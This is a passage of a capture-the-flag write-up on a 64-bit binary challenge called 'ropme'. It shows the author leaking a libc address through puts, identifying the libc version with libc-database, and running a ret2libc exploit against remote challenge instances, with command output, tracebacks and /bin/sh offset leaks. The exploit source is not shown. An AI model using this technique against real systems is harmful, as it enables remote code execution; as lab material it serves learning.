 Executing it remotely:

```bash
python3 exploit.py r
[+] Opening connection to 206.189.20.127 on port 32648: Done
b'0x7f1169c25690'
b'\x90V\xc2i\x11\x7f\x00\x00'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```

Leaked the address! But I don't know where the system is. Need to find out the version of libc, tried to google some libc searcher and found this: [https://libc.blukat.me/](https://libc.blukat.me/). For puts database didn't find libc. So, I leaked fflush and gets and it found:

> libc6_2.15-0ubuntu20.2_i386
libc6_2.15-0ubuntu20_i386

Here, I was stuck. Because I leaked the address and the database showed me the offsets of /bin/sh system. After some time of trying, I decided to leave the challenge. But after 5-15 minutes, I returned to it and solve it. L-O-L.

Don't use the database web interface. Git clone the repo and use tools there. [https://github.com/niklasb/libc-database](https://github.com/niklasb/libc-database). Also, leak whatever you want, in the final script, I stayed on puts leaking. So, I leaked puts and then did this magic:

```bash
../find puts 690                                  
launchpad-ubuntu-glibc-oneiric (libc6_2.13-0ubuntu15_amd64)
launchpad-ubuntu-glibc-natty (libc6_2.13-0ubuntu4_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu10_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu11_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu4_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu5_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu6_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu7_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu9_amd64)
```

Then, I just started to brute-force the libraries because my final version of the exploit was ready. I just replaced offset values. SOOOO, finally, I tried the third libc and then GOT THIS OUTPUT.

```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7f3697792690'
[BASE] libc: 0x00007f3697723000
b"ROP me outside, how 'about dah?\n"
Enum b'sh: 1: %s%s%s%s: not found\n'
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7ff3565d0690'
[BASE] libc: 0x00007ff356561000
b"ROP me outside, how 'about dah?\n"
Traceback (most recent call last):
  File "/home/kali/Downloads/remote_exploit.py", line 97, in <module>
    main()
  File "/home/kali/Downloads/remote_exploit.py", line 92, in main
    exploit(p, puts_offset, system_offset, bin_sh_offset)
```

[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367